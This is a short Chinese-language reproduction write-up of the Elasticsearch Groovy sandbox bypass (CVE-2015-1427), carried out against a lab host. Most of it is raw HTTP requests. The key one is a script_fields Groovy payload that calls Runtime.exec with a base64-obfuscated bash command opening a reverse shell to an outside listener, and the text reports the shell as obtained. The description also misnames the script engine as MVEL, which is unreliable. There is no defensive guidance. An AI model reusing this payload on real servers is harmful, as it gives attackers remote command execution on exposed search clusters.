





# ElasticSearch Groovy 沙盒绕过 && 代码执行漏洞（CVE-2015-1427）

> 漏洞说明

Elasticsearch是一个基于Lucene的搜索服务器。它提供了一个分布式多用户能力的全文搜索引擎，基于RESTful web接口。Elasticsearch是用Java语言开发的，并作为Apache许可条款下的开放源码发布，是一种流行的企业级搜索引擎。

ElasticSearch有脚本运行的功能，能够非常方便地对查询出来的数据再加工处理。  ElasticSearch用的脚本引擎是MVEL，这个引擎没有做什么的防护，所以直接能够运行随意代码。  而在ElasticSearch里，默认配置是打开动态脚本功能的，因此用户能够直接通过http请求，运行随意代码。


> 前提条件


> 利用工具


> 漏洞复现

访问http://192.168.40.77:9200/可以看到es成功启动



构造请求数据包添加一条数据

```http
POST http://192.168.40.77:9200/website/blog/ HTTP/1.1
Host: 192.168.40.77:9200
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
 "name": "tomato"
}

```

返回201，添加成功



验证命令执行


开启本地监听



将执行命令换成反弹shell语句

```http
POST http://192.168.40.77:9200/_search?pretty HTTP/1.1
Host: 192.168.40.77:9200
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 249

{"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"bash -c {echo,c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC40MC4xLzEyMzQgMD4mMQ==}|{base64,-d}|{bash,-i}\").getText()"}}}

```

发送数据包



成功反弹shell

